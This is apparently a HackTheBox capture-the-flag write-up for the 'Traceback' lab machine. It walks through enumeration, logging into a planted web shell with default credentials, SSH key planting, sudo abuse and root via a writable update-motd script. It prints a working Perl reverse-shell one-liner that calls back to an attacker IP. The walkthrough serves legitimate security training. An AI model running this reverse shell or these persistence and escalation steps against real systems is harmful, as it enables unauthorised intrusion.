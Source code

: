 ```yaml
---
title: Traceback Machine - Writeup
author: Sujit Suryawanshi
date: 2020-08-01 14:10:00 +0800
categories: [HackTheBox]
tags: [hackthebox, htb, traceback]
---
```


<h3><strong><span style="color:#ff5555">Traceback - HackTheBox</span></strong></h3>

---

![Desktop View]({{ "/assets/img/htb-machines/traceback-main.png" | relative_url }})

---

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Today I did Traceback box from HackTheBox.
It was nice box, CTF-like box in which the website has been hacked and placed one backdoor shell to access.
So the backdoor shell was the way to get initial shell and then need to get user by adding own ssh keys and then can go for Privilege Escalation to get root.

The box was using UpdateMotd which was running one custom script after a particular time. And the user had access to write into 00-header file which was executing.
Se lets move and Pwn this box.

**This blog is meant for educational purposes only.**

---

<strong><span style="color:#ff5555">Port & Service Enumeration</span></strong>

---

<p><code class="language-plaintext highlighter-rouge">root@kali:~sudo nmap -sC -sV -T4 10.10.10.181</code></p>

![Desktop View]({{ "/assets/img/htb-machines/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -T4 for Timing.
As you can see there are two ports open that is port 22 and 80. Port 80 hosting web server which has Apache httpd 2.4.29 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.

---

<strong><span style="color:#ff5555">Web Enumeration</span></strong>

---

After opening the website in browser, There was note from hacker who have defaced the site.

![Desktop View]({{ "/assets/img/htb-machines/traceback-website-defaced.png" | relative_url }})

Continuing to enumeration I checked the page source of website for comments and other juicy information.
Then I found one comment in HTML page of website.

![Desktop View]({{ "/assets/img/htb-machines/traceback-html-comment.png" | relative_url }})

After doing some web fuzzing using names of common backdoor shell, I found there was shell named "smevk.php" <http://10.10.10.181/smevk.php>

![Desktop View]({{ "/assets/img/htb-machines/traceback-ffuf.png" | relative_url }})

Visiting above url, Got login page of web shell.

![Desktop View]({{ "/assets/img/htb-machines/traceback-shell.png" | relative_url }})

I used default credentials as admin:admin to login into shell.

![Desktop View]({{ "/assets/img/htb-machines/traceback-shell-login.png" | relative_url }})

So here we got the access to backdoor shell and it's time to get full interactive shell.

---

<strong><span style="color:#ff5555">Initial Shell</span></strong>

---

Moving forward, I did some google for getting tty shell and got a tty shell using perl command given below.

```
perl -e 'use Socket;$i="10.10.14.167";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Then I used /usr/bin/script -qc /bin/bash /dev/null to make tty shell interactive.

Basically what this command does here -qc is script flag and -c means running a command instead of an interactive shell & -q means to be quiet as in not to print output through STDOUT.

Moving further, I found that machine has two users that is webadmin and sysadmin.

![Desktop View]({{ "/assets/img/htb-machines/traceback-users-list.png" | relative_url }})

As I had access of .ssh of folder I added my system's key in authorized_keys file so that I'll get access of this system using ssh.

![Desktop View]({{ "/assets/img/htb-machines/traceback-ssh-keys.png" | relative_url }})

After doing login by ssh I saw a weird message printed on screen.

![Desktop View]({{ "/assets/img/htb-machines/traceback-ssh-login.png" | relative_url }})

---

<strong><span style="color:#ff5555">Privilege Escalation: User</span></strong>

---

Anyway lets move further for sysadmin user.
While enumerating more, I found note.txt which contains,

![Desktop View]({{ "/assets/img/htb-machines/traceback-sysadmin-note.png" | relative_url }})

Checking sudo -l, I got that luvit was allowed to run as sudo with sysadmin user.

![Desktop View]({{ "/assets/img/htb-machines/traceback-luvit.png" | relative_url }})

So for Privilege Escalation and User flag I ran luvit with sudo and executed "/bin/bash" which gave me sysadmin.

![Desktop View]({{ "/assets/img/htb-machines/traceback-sysadmin-user.png" | relative_url }})

Next part in Privilege Escalation for root.

---

<strong><span style="color:#ff5555">Privilege Escalation: Root</span></strong>

---

So while enumerating for root, I saw one odd service like,

root       5660  0.0  0.0   4628   772 ?        Ss   17:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

After checking out both directories which are given in above service, I found writable file under "/etc/update-motd.d/" directory named 00-header.

So this file was executing and printing some text on login of SSH.

![Desktop View]({{ "/assets/img/htb-machines/traceback-00-header.png" | relative_url }})

Also the file was writable by sysadmin user which we have already owned.

Then I read flag by appending my command in the 00-header file and re-logged in using SSH and got root.txt also


![Desktop View]({{ "/assets/img/htb-machines/traceback-root.png" | relative_url }})

![Desktop View]({{ "/assets/img/htb-machines/traceback-root-1.png" | relative_url }})


**Thanks for reading this writeup and all suggestions are welcome.**
